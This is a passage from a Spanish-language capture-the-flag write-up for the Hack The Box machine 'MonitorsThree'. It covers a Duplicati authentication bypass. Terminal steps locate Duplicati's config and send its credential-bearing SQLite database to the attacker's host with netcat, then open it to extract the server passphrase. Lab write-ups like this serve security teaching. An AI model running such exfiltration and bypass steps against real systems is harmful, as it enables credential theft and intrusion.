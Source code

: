 El servicio Duplicati presenta una vulnerabilidad que permite eludir la autenticación de inicio de sesión utilizando el Server Passphrase.

<https://github.com/duplicati/duplicati/issues/5197>

<https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee>

```terminal
marcus@monitorsthree:~$ find / -name '*duplicati*' 2>/dev/null
```

![](assets/img/htb-writeup-monitorsthree/monitorsthree5_3.png)

```terminal
marcus@monitorsthree:~$ ls -al /opt/duplicati/config/
-rw-r--r-- 1 root root   90112 Dec 20 22:10 Duplicati-server.sqlite
```

```terminal
/home/kali/Documents/htb/machines/monitorsthree:-$ nc -lvp 4321 > Duplicati-server.sqlite 
	listening on [any] 4321 ...
	
marcus@monitorsthree:/opt/duplicati/config$ nc 10.10.16.84 4321 < Duplicati-server.sqlite

	... connect to [10.10.16.84] from monitorsthree.htb [10.10.11.30] 52332
```

Abro la base de datos utilizando sqlitebrowser para extraer el `Server_passphrase`

```terminal
/home/kali/Documents/htb/machines/monitorsthree:-$ sqlitebrowser Duplicati-server.sqlite
```

![](assets/img/htb-writeup-monitorsthree/monitorsthree5_4.png)